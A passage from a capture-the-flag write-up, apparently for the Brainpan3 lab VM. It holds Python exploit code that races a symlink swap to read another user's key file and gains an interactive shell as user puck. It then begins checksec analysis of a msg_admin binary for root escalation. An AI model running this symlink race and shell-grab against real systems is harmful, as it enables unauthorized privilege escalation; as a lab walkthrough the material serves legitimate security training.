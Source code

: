 ```python
    os.remove('/mnt/usb/key.txt')
except:
    pass

# Ensure we have a file to begin with
subprocess.check_output(['touch', '/mnt/usb/key.txt'])

# Connect and check for symlink
r = socket.socket()
r.connect((HOST, PORT))

# Quickly remove the non-symlinked file and re-symlink
os.remove('/mnt/usb/key.txt')
os.symlink('/home/puck/key.txt', '/mnt/usb/key.txt')

# Try for our shellz - Thanks for #livectf for showing this in previous CTFs.
t = telnetlib.Telnet()
t.sock = r
t.interact()

r.close()
" > win.py
""")

r.sendline("python win.py")
r.clean()
r.sendline("whoami")
output = r.recv()
log.success("Shell received: {}".format(output))
sleep(1)

r.interactive()
```

## Step 5

Now we are puck and need to finish what we believe is the last step to receiving a `root` shell. Going back to our cronjob, we need to analyze the `msg_admin` binary. We pull it off the VM in a similar manner as the `cryptor` binary.

Quick sanity check

```
ctf@ctf-barberpole:~/ctfs/brainpan3/files$ checksec msg_admin 
[*] '/home/ctf/ctfs/brainpan3/files/msg_admin'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
```
